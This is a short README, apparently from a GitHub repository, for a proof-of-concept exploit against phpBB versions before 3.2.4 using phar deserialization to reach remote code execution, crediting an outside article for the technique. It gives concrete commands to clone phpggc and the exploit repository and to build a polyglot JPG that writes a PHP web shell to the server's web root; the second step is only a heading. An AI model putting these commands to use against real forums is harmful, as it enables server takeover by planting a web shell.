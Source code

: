 # NiceForum

Exploiting phpBB < 3.2.4
Technique taken from the following article. Article also contains technical details regarding the exploitation.  
I am NOT the author of the following article, I have only created the POC file to exploit the vulnerability.  
https://blog.ripstech.com/2018/phpbb3-phar-deserialization-to-remote-code-execution/  

Step 1  - Create the payload  
  
Download the following repo  
git clone https://github.com/s-n-t/phpggc.git  
cd phpggc  
git clone https://github.com/RealLinkers/NiceForum  
chmod +x pharggc  
./pharggc -j ./NiceForum/yourawesomepicture.jpg -o polyglotfiletoupload.jpg Guzzle/FW1 /var/www/html/shell.php ./NiceForum/shell.php  

./pharggc -j <yourphoto.jpg> -o <polyglot.jpg> Guzzle/FW1 <your remote directory where the file will be written to> <your local shell file>  
  
 
 Step 2 - Run exploit code  


